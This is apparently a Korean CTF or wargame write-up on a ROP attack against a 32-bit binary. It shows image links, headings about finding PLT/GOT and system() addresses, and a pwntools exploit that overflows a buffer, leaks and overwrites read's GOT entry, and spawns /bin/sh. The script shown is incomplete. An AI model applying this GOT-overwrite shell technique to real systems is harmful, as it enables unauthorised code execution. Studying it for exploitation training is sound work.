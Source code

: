 ![image](https://user-images.githubusercontent.com/59410565/119161299-1f6b8b80-ba94-11eb-8014-1786dcb951ed.png)

> ROPgadget

![image](https://user-images.githubusercontent.com/59410565/119161376-3b6f2d00-ba94-11eb-9565-c4d0621f5d8c.png)

### plt, got 주소 찾기 - read, write

![image](https://user-images.githubusercontent.com/59410565/119161600-77a28d80-ba94-11eb-9fd9-ea06396e29bf.png)

### system() 주소 찾기

![image](https://user-images.githubusercontent.com/59410565/119161845-b6384800-ba94-11eb-8576-6c41737c10ed.png)

### Exploit code

```python
from pwn import *
from struct import *
 
#context.log_level = 'debug'
  
binsh = "/bin/sh"
  
stdin = 0
stdout = 1
  
read_plt = 0x8048320
read_got = 0x804a00c
write_plt = 0x8048350
write_got = 0x804a018

read_system_offset = 0x9ae70
writableArea = 0x0804a024 #.bss
pppr = 0x8048519 #pop pop pop ret
  
payload = "A"*260
 
 
#read(0,writableArea,len(str(binsh)))
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(stdin)
payload += p32(writableArea)
payload += p32(len(str(binsh)))
 
#write(1,read_got,len(str(read_got)))
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(stdout)
payload += p32(read_got)
payload += p32(4)
 
#read(0,read_got,len(str(read_got)))
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(stdin)
payload += p32(read_got)
payload += p32(len(str(read_got)))
 
#system(writableArea)
payload += p32(read_plt)
payload += p32(0xaaaabbbb)
```
